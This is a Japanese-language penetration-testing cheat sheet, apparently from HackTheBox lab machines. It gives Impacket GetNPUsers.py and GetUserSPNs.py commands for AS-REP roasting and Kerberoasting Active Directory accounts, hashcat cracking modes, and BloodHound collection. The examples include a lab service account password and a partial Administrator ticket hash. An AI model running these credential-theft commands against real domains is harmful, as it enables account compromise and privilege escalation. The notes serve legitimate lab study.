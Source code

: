 ## GetNPUsers.py (AS_REProast)

ASREPRoast攻撃により**Kerberos事前認証が不要**なユーザーを探索しそのパスワードハッシュの取得を狙う。

```
┌──(kali㉿kali)-[~]
└─$ GetNPUsers.py megabank.local/ -usersfile users.txt -format hashcat -outputfile hash.txt -no-pass -dc-ip 10.10.10.169
```

**krb5asrep**タイプのハッシュをクラック：

```
┌──(kali㉿kali)-[~]                                                                                                                                                                                              
└─$ hashcat -a 0 -m 18200 hashfile /usr/share/wordlists/rockyou.tx
```

## Blood Hound from "LOCAL"

```
┌──(kali㉿kali)-[~]
└─$ bloodhound-python -u <domain account> -p <account's password> -ns <target's IP> -d <Domain> -c Al

(e.g.) $ loodhound-python -u svc_tgs -p GPPstillStandingStrong2k18 -ns 10.10.10.100 -d active.htb -c Al
```

## GetUserSPNs.py
指定したドメインアカウント下で動いてるSPN（Service Principal Name）を探す。

- -reqeust: TGS（サービスチケットを発行するサーバ）にリクエストを出す
- -save: TGSを保存する（<username>.ccacheのフォーマット）

```
┌──(kali㉿kali)-[~]
└─$ GetUserSPNs.py -request -dc-ip <target IP> <domain>/<user name> -save -outputfile GetUserSPNs.out

(e.g.) $ GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
  
(c.f. [0xdf hacks stuff](https://0xdf.gitlab.io/2018/12/08/htb-active.html#decrypting-gpp-password))

> I’ll use the GetUserSPNs.py script from Impacket to get a list of service usernames which are associated with normal user accounts. 
It will also get a ticket that I can crack. 
  
***GetUserSPNs.pyの結果Administratorのハッシュが取れた！！！***
  
```
┌──(kali㉿kali)-[~]
└─$ ls
Administrator.acache
GetUserSPNs.out
  
┌──(kali㉿kali)-[~]
└─$ cat GetUserSPNs.out
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$25bac967bc8a16...
```
  
注意）このハッシュは（**krb5tgs**）のhashcatでは「-m 13100」。ハッシュタイプ18200はAS_Repのハッシュ。

  
### GetNPUsers.pyとGetUserSPNs.pyについて
#### GetNPUsers.py -> "AS_REPRoasting"（存在するユーザ名のみでOK）
-> ASREPRoastingとは、ケルベロスチケットを要求する際にpre-authenticationを必要としないようなアカウントに対して、"Does not require Pre-Authentication"なる権限を持っている場合に起こる。

  
#### GetUserSPNs.py -> "TGS_REPRoasting"（存在するユーザ名とそのパスワード（それなりの権限が必要かも））
-> そのドメイン内のアカウントのクリデンシャルを知っていれば、それは普通にTGSに対して要求できるでしょ。で、その**TGS_REPにはSPNのハッシュが含まれている**。これをofflineでクラックすると。（Activeの場合は、AdministratorがSPNに関連してたのがセキュリティホールかな）
